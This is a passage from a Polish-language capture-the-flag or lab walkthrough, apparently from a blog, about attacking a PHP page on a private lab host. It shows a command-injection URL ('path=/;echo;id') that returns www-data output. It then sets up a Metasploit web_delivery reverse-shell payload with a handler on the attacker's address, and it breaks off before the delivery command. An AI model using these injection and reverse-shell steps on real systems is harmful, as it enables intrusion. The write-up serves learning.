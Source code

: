 ```html
dr-xr-xr-x 123 nobody nogroup    0 Aug 11 08:00 proc
drwx------   6 root   root    4.0K Aug 11 10:15 root
drwxr-xr-x  17 root   root     660 Aug 12 06:26 run
drwxr-xr-x   2 root   root    4.0K Jul 30 04:36 sbin
drwxr-xr-x   2 root   root    4.0K Jul 14 22:03 snap
drwxr-xr-x   2 root   root    4.0K Jun 29 03:01 srv
dr-xr-xr-x  13 nobody nogroup    0 Aug 11 08:23 sys
drwxrwxrwt   8 root   root    4.0K Aug 12 13:09 tmp
drwxr-xr-x  11 root   root    4.0K Jun 29 03:03 usr
drwxr-xr-x  14 root   root    4.0K Jul 15 17:11 var	
```
</div>
Możemy wyświetlić katalog. Sprawdźmy czy jest podatność przez **Code injection**:
{: .text-justify}
<div class="notice--primary" markdown="1">
http://172.16.1.218/index.php?path=/;echo;id
```html
	total 72K
drwxr-xr-x  22 root   root    4.0K Jul 15 09:33 .
drwxr-xr-x  22 root   root    4.0K Jul 15 09:33 ..
drwxr-xr-x   2 root   root    4.0K Jul 30 04:28 bin
drwxr-xr-x   2 root   root    4.0K Jun 29 03:07 boot
drwxr-xr-x   8 root   root     480 Aug 11 08:00 dev
drwxr-xr-x  81 root   root    4.0K Aug 11 14:59 etc
drwxr-xr-x   3 root   root    4.0K Jul 19 15:03 home
drwxr-xr-x  16 root   root    4.0K Jun 29 03:04 lib
drwxr-xr-x   2 root   root    4.0K Jun 29 03:03 lib64
drwxr-xr-x   2 root   root    4.0K Jun 29 03:01 media
drwxr-xr-x   2 root   root    4.0K Jun 29 03:01 mnt
drwxr-xr-x   2 root   root    4.0K Jun 29 03:01 opt
dr-xr-xr-x 123 nobody nogroup    0 Aug 11 08:00 proc
drwx------   6 root   root    4.0K Aug 11 10:15 root
drwxr-xr-x  17 root   root     660 Aug 12 06:26 run
drwxr-xr-x   2 root   root    4.0K Jul 30 04:36 sbin
drwxr-xr-x   2 root   root    4.0K Jul 14 22:03 snap
drwxr-xr-x   2 root   root    4.0K Jun 29 03:01 srv
dr-xr-xr-x  13 nobody nogroup    0 Aug 11 08:23 sys
drwxrwxrwt   8 root   root    4.0K Aug 12 13:09 tmp
drwxr-xr-x  11 root   root    4.0K Jun 29 03:03 usr
drwxr-xr-x  14 root   root    4.0K Jul 15 17:11 var

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
</div>
Maszyna jest podatna. Czas tam wejść. Do tego użyjemy <mark>Metasploita</mark>:
{: .text-justify}
```console
msf6 exploit(multi/script/web_delivery) > use exploit/multi/script/web_delivery
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(multi/script/web_delivery) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf6 exploit(multi/script/web_delivery) > set lhost eth0
lhost => eth0
msf6 exploit(multi/script/web_delivery) > set target PHP
target => PHP
msf6 exploit(multi/script/web_delivery) > run -j
[*] Exploit running as background job 2.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 172.16.1.10:4444
msf6 exploit(multi/script/web_delivery) > [*] Using URL: http://0.0.0.0:8080/xIXYouzGVsN
[*] Local IP: http://172.16.1.10:8080/xIXYouzGVsN
[*] Server started.
[*] Run the following command on the target machine:
```